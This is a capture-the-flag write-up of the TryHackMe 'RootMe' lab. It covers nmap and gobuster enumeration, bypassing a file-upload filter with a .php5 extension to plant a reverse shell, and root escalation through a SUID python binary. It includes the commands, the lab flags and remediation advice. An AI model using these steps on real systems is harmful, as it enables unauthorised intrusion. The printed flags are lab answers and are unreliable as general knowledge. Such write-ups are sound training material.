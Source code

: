 # Lab Report - RootMe


# Overview 
- **Difficulty**: Easy.
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/rrootme
- **Tags**: #enumeration #shell #privesc

## Challenge Description 
> **A ctf for beginners, can you root me?**

## Resolution Summary 
> **We Started by performing active reconnaissance using Nmap on the target IP, we found an HTTP website running on port 80. Then we used Gobuster to find hidden directories, we uncovered a hidden upload web page. After testing multiple PHP extensions, we found one that is allowed and uploaded a reverse shell. Upon getting a shell, we exploited the python binary as it had its SUID bit set and it was owned by root. Finally we got root access and retrieved the flags.** 

# Information Gathering 
## Active Reconnaissance
- **We attempted to discover running services on the given IP by running an Nmap scan, we scanned for services versions as well (may reveal usable exploits).**
```bash
sudo nmap -sV 10.10.185.141
```
	- Note : Adding the -p- flag did not lead to other results.

- **We found 2 running services, an SSH (22) server and an HTTP server (80).**
```bash
#Results 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP (80) 
- **Next, we focused on the HTTP server running on port 80.** 
- **First, we took a look at the Page Source. We saw that the web server was running a script to display the text on the homepage. (dead end)**

- **After that, we ran `GoBuster` to find hidden directories.** 
```bash
gobuster dir -u 10.10.185.141 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
``
- **We uncover the following directories:** 
```bash
/uploads              (Status: 301) [Size: 316] [--> http://10.10.185.141/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.185.141/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.185.141/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.185.141/panel/]

```

- **Upon further investigation, the /panel directory lead us to an upload web page.** 
# Exploitation 
- **Given the upload web page found, we will try to upload a reverse shell on the web server.** 
- **We used the PHP reverse shell available on Kali machines (from PentestMonkey) and set up a listener with netcat** 
```bash
nc -lnvp 1234
```

- **The server seemed to have filters. Therefore, we tried other PHP extensions.**
- **.php5 worked fine and we got a reverse shell.**

# Privilege Escalation 
- **Once we obtain a webshell, we listed files that had the SUID bit set (we may list files that are owned by root as well).**
- **We found that python2.7 does, hence we looked for an exploit on GTFOBins.**
- **Then we used:** 
```bash
python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' 
```

- **Which allowed us to gain root access and get the flags:** 
```bash 
find -type f -name "user.txt"
cat ./user.txt

find -type f -name "root.txt"
cat ./root.txt
```
# Trophy 
> **User.txt**
> **THM{y0u_g0t_a_sh3ll}** 

> **Root.txt**
> **THM{pr1v1l3g3_3sc4l4t10n}**

# Extra Mile 
 - **Create an SSH key pair, add your public key to the authorized_keys files in ./ubuntu, gain access to the SSH server.**
 - **Crack the /etc/passwd hashes with JTR or Hashcat (then use credential on the SSH server).**

# Remediation Summary
---
 - **For the Upload web page:** It should have a whitelist instead of a blacklist + Ban the use of particular functions (like system()).
- **Files owned by root:** Binaries like python must not have SUID bit set.
